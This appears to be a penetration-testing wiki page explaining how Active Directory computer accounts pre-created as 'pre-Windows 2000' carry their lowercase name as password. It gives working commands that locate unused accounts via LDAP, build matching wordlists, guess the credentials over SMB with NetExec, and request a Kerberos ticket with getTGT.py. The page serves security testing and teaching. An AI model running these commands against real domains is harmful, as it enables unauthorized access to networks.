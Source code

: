 # Pre-Windows 2000 computers

## Theory

When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing `$`). When it isn't, the password is randomly generated.

Once an authentication occurs for a pre-Windows 2000 computer, according to [TrustedSec's blogpost](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/), its password will usually need to be changed.

## Practice

Finding computer accounts that have been "pre-created" (i.e. manually created in [ADUC](https://blog.netwrix.com/2017/01/30/active-directory-users-and-computers-aduc/) instead of automatically added when joining a machine to the domain), but have never been used can be done by filtering the `UserAccountControl` attribute of all computer accounts and look for the value 4128 (32|4096) (deductible via the [UserAccountControl](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) flags):

* 32 - `PASSWD_NOTREQD`
* 4096 - `WORKSTATION_TRUST_ACCOUNT`

The `logonCount` attribute can be filtered as well.

The [ldapsearch-ad](https://github.com/yaap7/ldapsearch-ad) tool can be used to find such accounts. Once "pre-created" computer accounts that have not authenticated are found, they should be usable with their lowercase name set as their password. This can be tested with [NetExec](https://github.com/Pennyw0rth/NetExec) (Python) for instance.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># 1. find pre-created accounts that never logged on
</strong><strong>ldapsearch-ad -l $LDAP_SERVER -d $DOMAIN -u $USERNAME -p $PASSWORD -t search -s '(&#x26;(userAccountControl=4128)(logonCount=0))' | tee results.txt
</strong>
# 2. extract the sAMAccountNames of the results
cat results.txt | grep "sAMAccountName" | awk '{print $4}' | tee computers.txt

# 3. create a wordlist of passwords matching the Pre-Windows 2000 generation, based on the account names
cat results.txt | grep "sAMAccountName" | awk '{print tolower($4)}' | tr -d '$' | tee passwords.txt

# 4. bruteforce, line per line (user1:password1, user2:password2, ...)
nxc smb $DC_IP -u "computers.txt" -p "passwords.txt" --no-bruteforce</code></pre>

> You will see the error message **STATUS\_NOLOGON\_WORKSTATION\_TRUST\_ACCOUNT** when you have guessed the correct password for a computer account that has not been used yet. ([trustedsec.com](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/))

Testers can then change the Pre-Windows 2000 computer accounts' password (i.e. [rpcchangepwd.py](https://github.com/SecureAuthCorp/impacket/pull/1304), [kpasswd.py](https://github.com/SecureAuthCorp/impacket/pull/1189), etc.) in order to use it.

{% hint style="success" %}
Alternatively, Filip Dragovic was able to authenticate using Kerberos without having to change the account's password. ([source](https://twitter.com/filip\_dragovic/status/1524730451826511872))

```bash
getTGT.py $DOMAIN/$COMPUTER_NAME\$:$COMPUTER_PASSWORD
```

The ticket obtained can then be used with [ptt.md](../kerberos/ptt.md "mention")
{% endhint %}

## Resources

{% embed url="https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/" %}

{% embed url="https://web.archive.org/web/20080205233505/http://support.microsoft.com/kb/320187" %}
